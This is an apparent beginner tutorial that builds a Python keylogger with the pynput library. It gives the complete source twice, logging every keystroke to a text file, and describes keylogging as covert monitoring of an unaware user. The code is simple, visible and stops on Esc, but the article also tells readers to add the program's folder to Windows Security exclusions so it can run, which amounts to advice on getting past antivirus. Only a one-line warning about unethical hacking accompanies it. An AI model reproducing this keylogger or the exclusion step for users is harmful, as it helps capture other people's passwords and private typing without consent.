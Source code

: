Key Logger ⌨️| Python

Introduction:

Keystroke logging, often referred to as keylogging or keyboard capturing, is the action of recording (logging) the keys struck on a keyboard,[1][2] typically covertly, so that a person using the keyboard is unaware that their actions are being monitored. Data can then be retrieved by the person operating the logging program.
Using the python pynput package we can implement the keylogger concept. This library allows you to control and monitor input devices, that is how we will be controlling the keyboard inputs to log the keystrokes.
In our project the logs will be saved in text(.txt) file that will reside in the same folder as the program.
Project Prerequisites:

You have to install the package called pynput for this project
pynput -  https://pypi.org/project/pynput/

Now then, shall we begin…

NOTE: I will be using PyCharm Community Edition IDE.So, the steps I mention are specific to that IDE only.
You can also write the program in IDE of your choice; I have mentioned the requirements in the end notes of this article. 
First of all, we need to create a project folder with name MyKeyLoggerProject and after we need to create a KeyLogger.py file in the project folder.
To install the pynput package:
Click on the file button and then Setting or you can directly press Ctrl+Alt+S
to open the settings
There you will find the Project:MyKeyLoggerProject option click on that and then on the Python Interpereter.
Now to install the pynput package click on the ‘+’ symbol above the Package and search for pyput and then click Install Package.

A message will be displayed – “Package ‘pynput’ installed successfully”. Close the settings.


Code Implementation:

Before going to use the pynput.keyboard package let us know what exactly does it offer us to work on our keylogger project.
The package pynput.keyboard contains classes for controlling and monitoring the keyboard. pynput is the library of Python that can be used to capture keyboard inputs there the coolest use of this can lie in making keyloggers. The code for the keylogger is given below.
First we import the modules Key, Listener from the package pynput.keyboard
from pynput.keyboard import Key, Listener

Key class is used to determine the type of the key that is being pressed.
The Listener is used to get the keystrokes on the keyboard continuously.

Now we create an empty list named keys to store all the key strokes to write them into the file.
keys = [] # empty list to add the keystrokes

To listen to the keystrokes and write them to the log file we will be using a total of 3 functions namely:
1.on_press: in this function every key that is pressed is added to the keys list and the function to write it to the log file is called. Also the type of key that is pressed will be printed in the console/terminal.
# function to print which key is being pressed

def on_press(key):
    keys.append(key)
    write_file(keys)
    try:
        print('alphanumeric key {0} pressed'.format(key.char))
    except AttributeError:
        pass
        print('special key {0} pressed'.format(key))

The try and except are used to handle exception caused when special keys are pressed.

2.on_release: in this function we will be printing every key that is released in the console/terminal and will stop the program if esc is pressed and released.
# function to print which key is being released and end Listener if esc is pressed
def on_release(key):
    print('{0} released'.format(key))
    if key == Key.esc:
        # Stop listener when esc is pressed
        return False

The program ends when the esc key is pressed and released.

3.write_file: this function is used to write all the key strokes to the log file.
# function to write the keystrokes to the log file
def write_file(keys):
    with open('log.txt', 'w') as f:
        for key in keys:
            # removing '' of the strings
            k = str(key).replace("'", "")
            f.write(k)
            # space between every keystroke for readability
            f.write(' ')

The Listener gives all the keystrokes inside single quotes(‘) so we use the replace method to replace them with null.

Last, we create a Listener instance to call the above functions when a key is pressed or released accordingly. We pass two parameter namely on_press and on_release.
The with keyword is used to allocate resources to the Listener object and release them automatically when the task is completed.
join() -  adds single quotes to each keystroke and join them together.

with Listener(on_press=on_press,
              on_release=on_release) as listener:
    listener.join() # joins all the keystrokes together

Yup!!! We have successfully implemented the code for Key Logging.
This is the complete source code of this project.

# keylogger using pynput module

from pynput.keyboard import Key, Listener

keys = [] # empty list to add the keystrokes

# function to print which key is being pressed
def on_press(key):
    keys.append(key)
    write_file(keys)

    try:
        print('alphanumeric key {0} pressed'.format(key.char))

    except AttributeError:
        pass
        print('special key {0} pressed'.format(key))

# function to write the keystrokes to the log file
def write_file(keys):
    with open('log.txt', 'w') as f:
        for key in keys:
            # removing '' of the strings
            k = str(key).replace("'", "")
            f.write(k)
            # space between every keystroke for readability
            f.write(' ')

# function to print which key is being released and end Listener if esc is pressed
def on_release(key):
    print('{0} released'.format(key))
    if key == Key.esc:
        # Stop listener when esc is pressed
        return False


with Listener(on_press=on_press,
              on_release=on_release) as listener:
    listener.join() # joins all the keystrokes together

Now, right click on the mouse and run the program 
After the program starts running open the notepad using mouse and write hello
The output will be as shown below

As you can see the left side the terminal where we can see which key is pressed and released while we write hello in the notepad.
After this press esc to stop the program and open the log file in the same folder as the program.
You will see the following:

As you can see the keys, we pressed on the keyboard are logged into the log file.

NOTE: This program can be executed in any IDE of your choice. You only need to install the pynput package using the cmd
Command for installing pynput through cmd – pip install pynput
NOTE: You should add the folder that you are writing the program in to exclusions in the windows security to be able to run it.
Remember this project can be used for hacking and unethical hacking is punishable so careful what you use this project for.

All done, congratulations you have learnt how to make a keylogger using python.